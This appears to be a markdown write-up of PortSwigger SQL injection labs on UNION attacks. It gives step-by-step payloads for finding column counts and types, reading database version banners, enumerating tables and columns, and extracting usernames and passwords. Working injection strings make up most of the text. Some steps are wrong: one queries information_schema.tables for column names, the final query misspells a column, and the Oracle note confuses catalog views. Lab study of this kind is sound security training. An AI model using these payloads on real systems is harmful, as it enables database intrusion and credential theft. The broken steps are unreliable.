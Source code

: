# Union Attacks (plus some basics)

Union attacks work by using the `UNION` keyword in SQL which combines the results of two `SELECT` statements.  Therefore when you have a query that isn't sanitized, you can simply add another `SELECT` statement to get the data that you want while commenting out the remainder of the query logic.  This only works if you can actually see the results of the data on the page however.

## SQLi union to find # of cols
>We can subvert the application logic by selecting Null values from the columns of the table.  If we don't select a value from each column without a WHERE statement, the application will throw an error.  Therefore we can simply keep adding NULL values until the application stops throwing errors.  Note the query is slighlty different Oracle.  
>
>[Note this can also be done using ORDER BY but I found this easier]
>
>Solution: `+UNION+SELECT+NULL,NULL,NULL--`
>Final query:
>```SQL
>                                          |           payload           |
>SELECT thing FROM table WHERE category = '' UNION SELECT NULL,NULL,NULL--'[rest of query here]
>```
>
<br/>

## SQL find column containing text
>We used NULL as the values as regardless of the data type of each column, given we selected from each there would be no error.  Now to find which ones are strings we can simply just test each column with a string instead of NULL.
>
>Solution: `+UNION+SELECT+'eee',NULL,NULL` ect ect ect
>
<br/>

## SQL union to get data from other tables
>First step is to use the previous two methods to find out the number and type of each columns.  We find there are two columns that have strings.  Since we're given the fact that they are named `username` and `password`, we can simply query from both.  Checking for extra columns is useful given there were other columns that would have caused this attack to error.
>
>Solution: `'+UNION+SELECT+username,+password+FROM+users--`
>Final query:
>```SQL
>                                         |                  payload                  |
>SELECT * FROM products WHERE category = '' UNION SELECT username,password FROM users--'[rest of query here] 
>```
>
<br/>

## SQL union multipile tables in single column
>Using the previous methods to determine the type and number of columns, we find one that has string values and another that is of another data type.  Therefore to exfiltrate both tables in only one column we must simply append the values of one table to the other.  It may be useful to check the version of SQL the site is running as different SQL flavors have differing sytax for string cocatination.
>
>Solution: `'UNION SELECT NULL,username||password FROM USERS--`
>Final query:
>```SQL
>                                         |                      payload                     |
>SELECT * FROM products WHERE category = '' UNION SELECT NULL, username||password FROM USERS--'[rest of query here]
>```
>
<br/>

## SQL union select version on Oracle
>Given we are told that the version is Oracle for this database, we can simply union attatch the version at the end of the query.  Note the unique syntax of Oracle as it always requires a `FROM` and a table with every `SELECT` query so we must modify the payload to find the type and number of tables.  We can remedy this by using the `dual` table which is always present like so: `'>+UNION+SELECT+'eee','eee'+FROM+dual--`.  We can then request the banner from the `v$version` table which can be found on the [sql cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
>
>Solution: `'+UNION+SELECT+NULL,BANNER+FROM+v$version--`
>Final query:
>``` SQL
>                                         |                 payload                 |
>SELECT * FROM products WHERE category = '' UNION SELECT NULL,BANNER FROM v$version--'[rest of query here]
>```
>
<br/>

## SQL union select version on non Oracle
>Repeat with the previous except you need to test for which version the database is in.  This one turns out to be MySQL.  Substitute accordingly sytax wise.
>
>NOTE: for MySQL you need a space after the double dash to properly comment or use a #.
>
>Solution: `'+UNION+SELECT+@@version,+NULL--+` 
>
<br/>

## SQL union select database tables on non Oracle
>Note: in this lab, the randomized string after the users, password, and username will be different for your lab.
>
>Use previous methods to find out number and type of columns.  We find there are two string columns.  Most non Oracle SQL databases have a table named `information_schema.tables` which houses information about the tables in the database and within that have a column named `table_name` which houses names about the tables on the database.  We can use this to union the table names of the user info with the following payload: 
>`'+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--`
>
>Full query:
>```SQL
>                                         |                            payload                          |
>SELECT * FROM products WHERE category = '' UNION SELECT table_name,NULL FROM information_schema.tables--'
>```
>
>Then after finding the user info table name, which is `users_jzmhvt`, we can query from the `information_schema.tables` to find details about the individual table using the following payload:
>`+UNION+SELECT+column_name,NULL+FROM+information_schema.tables+WHERE+table_name='users_jzmhvt'`
>
>Full query (payload too long for highlighting lol):
>```SQL
>SELECT * FROM products WHERE category = '' UNION SELECT column_name,NULL FROM information_schema.tables WHERE table_name='users_jzmhvt'--'
>```
>
>Finally we get the column names for username and password `password_rnlbda` & `username_noeqqv` and can directly request the information from the users table with the following payload:
>`+UNION+SELECT+username_noeqqv,password_rnlbda+FROM+users_jzmhvt--`
>and nab the password.
>
>Final query:
>```SQL
>                                         |                            payload                            |
>SELECT * FROM products WHERE category = '' UNION SELECT username_noeqqv,password_rnlba FROM users_jzmhvt--'
>```
>
<br/>

## SQL union select database tables Oracle
>Repeat previous lab but with Oracle syntax.  Remember in Oracle instead of `information_schema.tables`, Oracle uses all_tables and instead of `table_name`, uses `all_tab_columns`.
>
<br/>